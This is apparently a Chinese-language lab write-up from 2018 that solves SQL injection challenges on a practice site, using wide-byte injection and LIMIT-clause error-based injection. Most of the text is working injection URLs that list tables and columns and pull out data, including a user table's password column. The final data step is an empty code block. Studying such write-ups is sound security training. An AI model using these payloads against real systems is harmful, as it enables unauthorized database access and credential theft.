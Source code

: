 title: 网络信息安全攻防的注入关
author: Qianye
abbrlink: bd4962df
tags: []
categories: []
date: 2018-02-26 13:37:00
---
# 宽字节注入
输入%df'出现报错
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%df'
```
判断字段长短
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' order by 3 %23
```
得到显示位

```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,3 %23
```
显示位为 2,3

查看表名
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) %23
```
得到字段名
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7361655f757365725f73716c6934) %23
```
得到字段数据
```bash
http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php?id=2%bf' union select 1,2,(select group_concat(title_1,content_1) from sae_user_sqli4) %23
```
# limit注入
猜测后台是
```bash
select * from  table limit start,num
```
发现只有limit参数有用，num没影响

遇到limit的注入的时候，可以使用如下的语句进行报错注入。
```bash
select field from user where id=XXX order by id limit 1,1 procedure analyse (extractvalue(rand(),concat(0x3a,SQL注入语句)),1);
```
得到表名article,user
```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0%20procedure%20analyse(extractvalue(rand(),concat(0x3a,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()))),1)%23%20&num=100%20%23
```
得到user表中的字段id,username,password,lastloginI
```bash
http://lab1.xseclab.com/sqli5_5ba0bba6a6d1b30b956843f757889552/index.php?start=0%20procedure%20analyse(extractvalue(rand(),concat(0x3a,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x75736572))),1)%23%20&num=100%20%23
```
字段数据
```bash
```